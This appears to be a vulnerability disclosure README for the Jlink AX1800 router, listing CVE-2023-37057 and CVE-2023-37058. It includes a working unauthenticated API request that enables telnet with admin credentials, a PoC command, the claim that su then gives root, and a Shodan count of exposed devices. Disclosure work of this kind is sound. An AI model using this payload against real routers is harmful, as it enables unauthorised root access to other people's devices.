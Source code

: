 # Jlink AX1800

Jlink routers suffer from A01 Broken Access Control. Any remote user can access any of the routers API's without a password. A rouge threat actor can enable telnet and then escalate to root privileges by just entering the su command. 

**Telnet API:** 
```
 "mode_name=/web/um_telnet_set&telnetEnable=1&userName=admin&userPwd=pawnp@nda69"
```

**Run POC:**
```
expect jlink
```


Shodan shows 902 devices available to RCE.  

* * *
CVE-2023-37058:
Insecure Permissions vulnerability in JLINK Unionman Technology Co. Ltd Jlink AX1800 v.1.0 allows a remote attacker to escalate privileges via a crafted command.

CVE-2023-37057:
An issue in JLINK Unionman Technology Co. Ltd Jlink AX1800 v.1.0 allows a remote attacker to execute arbitrary code via the router's authentication mechanism.


